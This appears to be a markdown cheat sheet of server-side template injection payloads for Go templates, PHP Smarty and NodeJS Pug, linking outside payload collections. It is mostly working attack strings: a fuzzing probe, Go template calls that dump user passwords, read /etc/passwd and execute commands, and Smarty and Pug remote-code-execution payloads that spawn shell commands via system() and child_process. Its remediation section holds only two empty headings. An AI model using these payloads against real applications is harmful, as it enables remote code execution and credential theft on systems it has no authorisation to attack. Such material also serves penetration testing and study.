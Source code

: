 # Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

# https://book.hacktricks.xyz/

## Payloads Fuzzing: ${{<%'"}}%

## PoC Payload for Identification: ${7*'7'}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads:

## Go SSTI

#### 1) {{ .Password }} (Fetches the passwords of all users) Hint: It depends on the struct the application has been made of to use the correct one! 

#### 2) {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

#### 3) {{ .ExecuteCmd "whoami" }} Executes commands

#### 4) {{ . }} (Dumps variables)

## PHP - Smarty

#### PoC Enumeration Payload

    {'Hello'|upper}
  
#### RCE Payload

    {system("id")}

## NodeJS - Pug

### PoC Payload

    #{7*7}

### RCE Payload

    #{root.process.mainModule.require('child_process').spawnSync('id').stdout}

### SpawnSync RCE Payload with arguments

    #{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}
